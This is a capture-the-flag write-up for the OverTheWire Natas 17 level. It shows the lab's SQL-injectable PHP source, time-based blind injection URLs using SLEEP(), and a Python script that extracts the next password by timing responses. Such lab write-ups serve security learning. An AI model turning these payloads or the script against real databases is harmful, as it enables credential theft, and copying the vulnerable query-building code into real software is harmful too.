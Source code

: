 # Natas 17 -> 18

```
http://natas17.natas.labs.overthewire.org
```

```
Username: natas17
```

Similar to `natas15` except this time, we don't have a clue if the query produced results or not.

```php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? }
```

But what we do know is that it'll execute `mysql_close` at the end.  
MySQL has a function called `SLEEP()` which basically *sleeps* a certain amount of time, so just like in `natas15` we need to perform a sqli with a bit of logic.  

```
?username=natas18" and SLEEP(10) and 1="1&debug=1
```

So, if the username *is* `natas18` and 1 equals to 1 and slept 10s, we will notice the delay, otherwise it'll return quickly. See it for yourself:  

```
?username=natas1234" and SLEEP(10) and 1="1&debug=1
```

Well, let's reuse the same script of `natas15`.

```python
#!/usr/bin/env python

import sys
import time
import string
import requests

url = "http://natas17.natas.labs.overthewire.org/"
http_user = "natas17"
http_pass = ""

bf_passwd = ""
bf_dict = string.ascii_letters + string.digits

while len(bf_passwd) != 32:
    for char in bf_dict:
        now = time.time()
        r = requests.get(url,
                         params={
                             'username': 'natas18" AND password LIKE BINARY "{}%" AND SLEEP(5) AND 1="1'.format(bf_passwd + char)
                         },
                         auth=(http_user, http_pass))
        then = time.time()
        sys.stdout.write("\rTrying: {} | Password: {}".format(char, bf_passwd))
        sys.stdout.flush()
        if int(now - then):
            bf_passwd += char
            sys.stdout.write("\rMatch: {} | Password: {}".format(char, bf_passwd))
            sys.stdout.flush()
            break

print "\rPassword: {}".format(bf_passwd)

```

* php
* python
* http://dev.mysql.com/doc/refman/5.7/en/miscellaneous-functions.html#function_sleep
